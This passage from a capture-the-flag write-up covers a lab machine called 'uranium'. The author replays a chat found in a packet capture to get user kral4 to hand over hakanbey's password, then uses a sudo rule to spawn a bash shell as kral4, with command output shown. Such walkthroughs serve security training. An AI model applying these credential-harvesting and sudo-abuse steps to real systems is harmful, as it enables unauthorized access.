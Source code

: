 As you can see, the user `kral4` sent a message to us.

Based on the conversation in the pcap file, user `hakanbey` forgot his password, and user `kral4` will send it to `hakanbey`.

**Let's continue the conversation!**
```shell
->hi
hakanbey:hi
kral4:how are you?

->I'm good!
hakanbey:I'm good!
kral4:what now? did you forgot your password again

->
```

**Now, if I say "yes", will `kral4` give us the password?**
```shell
->yes 
hakanbey:yes
kral4:okay your password is {Redacted} don't lose it PLEASE
kral4:i have to go
kral4 disconnected

connection terminated
```

Nice!!

Now we have user `hakanbey`'s password!

**Let's check out Sudo permission:**
```shell
hakanbey@uranium:~$ sudo -l
[sudo] password for hakanbey: 
Matching Defaults entries for hakanbey on uranium:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hakanbey may run the following commands on uranium:
    (kral4) /bin/bash
```

Oh! User `hakanbey` can run `/bin/bash` as user `kral4`!

**Let's spawn a bash shell as user `kral4`!**
```shell
hakanbey@uranium:~$ sudo -u kral4 /bin/bash
kral4@uranium:~$ whoami;hostname;id;ip a
kral4
uranium
uid=1001(kral4) gid=1001(kral4) groups=1001(kral4)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:c5:fc:b9:fc:6f brd ff:ff:ff:ff:ff:ff
    inet 10.10.180.31/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2865sec preferred_lft 2865sec
    inet6 fe80::c5:fcff:feb9:fc6f/64 scope link 
       valid_lft forever preferred_lft forever
```
